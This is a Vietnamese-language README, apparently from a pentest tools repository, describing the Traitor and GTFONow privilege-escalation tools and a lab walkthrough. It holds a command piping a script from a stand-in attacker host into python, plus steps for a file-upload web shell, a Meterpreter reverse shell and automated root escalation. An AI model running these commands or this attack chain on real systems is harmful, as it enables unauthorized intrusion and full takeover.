 # Traitor
## Giới thiệu
[https://github.com/liamg/traitor](https://github.com/liamg/traitor)
- Một tool tự động tìm các misconfiguration và khai thác chúng để leo quyền root
- Các lỗ hổng mà tool này có thể khai thác ![image](https://github.com/Myozz/everyTools/assets/94811005/e68717fd-b309-482d-8f4f-fe9269831e5a)
- Đây là một tool không được cập nhật kể từ 2022 nên có thể thiếu các vuln hay misconfig mới
## Các tuỳ chọn chính
- Nếu chỉ chạy tool mà không có bất kì flag nào thì tool sẽ tìm các vuln/misconfig mà có thể sử dụng để leo quyền
- ```-p```: Cung cấp password của người dùng hiện tại của mục tiêu (dùng để xác thực trong trường hợp cần thiết)
- ```-a```: Thử khai thác từng lỗ hổng có thể, dừng lại khi lấy được root shell
- ```-e```: Chỉ định misconfig/vuln để khai thác trên mục tiêu
# GTFOnow
- Link: [https://github.com/Frissi0n/GTFONow](https://github.com/Frissi0n/GTFONow)
- Một tool có khả năng khai thác hầu hết các misconfig trên GTFObin, và vẫn được cập nhật cho tới thời điểm hiện tại
- Có thể exploit bằng curl thay vì phải upload lên mục tiêu

      curl http://attacker.host/gtfonow.py | python
## Các tuỳ chọn chính
- ```--level <LEVEL>```: Tuỳ chỉnh giữa 2 level:
  - ```1```: Tuỳ chọn mặc định, quét nhanh mục tiêu
  - ```2```: Tuỳ chọn cho phép quét rộng hơn
- ```--risk <RISK>```: Mức độ rủi ro
  - ```1```: Tuỳ chọn mặc định, đảm bảo an toàn cho mục tiêu
  - ```2```: Tool sẽ tự động chỉnh sửa một số file cần thiết, chỉ nên sử dụng khi đã nắm rõ chúng làm những gì
- ```--command <COMMAND>```: Thực hiện một câu lệnh sau khi đã leo quyền thành công
- ```--auto```: Tự động khai thác thay vì yêu cầu chúng ta chọn
- ```-v```: Theo dõi tiến độ khi khai thác 
## Thử nghiệm
- Ta sẽ thực hiện qua một lab upload vuln ![image](https://github.com/Myozz/everyTools/assets/94811005/8c3a5213-aeac-4cee-ac09-68307936bfd1
- Sử dụng các công cụ tìm path/dir trên mục tiêu ta biết được mục tiêu lưu file tại path ```/uploads```
- Tiếp tục kiểm tra xem mục tiêu cho phép upload định dạng file nào, có thể tham khảo qua [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln)
- Sau khi thực hiện kiểm tra, ta thấy được có thể sử dụng các định dạng file php1, php2,... (trừ php) có thể được sử dụng để khai thác
- Thực hiện tạo payload với định dạng file như trên, tham khảo các tool tạo payload ở [đây](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln/Payloads)
- Upload payload vừa tạo được lên mục tiêu (Có thể tận dụng tool filepwner ở [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln) để upload file qua config của nó, rồi thực hiện reverse shell (nên sử dụng meterpreter để có thể upload các công cụ kể trên lên mục tiêu
- Sau khi có được Meterpreter, bây giờ ta sẽ thử upload file GTFOnow lên mục tiêu bằng lệnh ```upload``` và dùng lệnh ```shell``` để thực thi lệnh trên mục tiêu ![image](https://github.com/Myozz/everyTools/assets/94811005/54420ce7-9162-4395-854c-81e747478410)
- Thực thi lệnh ```python gtfonow.py -a``` để bắt đầu khai thác tự động ![image](https://github.com/Myozz/everyTools/assets/94811005/c41eb7a8-29fa-425c-a729-b11adff819fb) 
- Như vậy là ta đã thành công leo quyền root lên mục tiêu
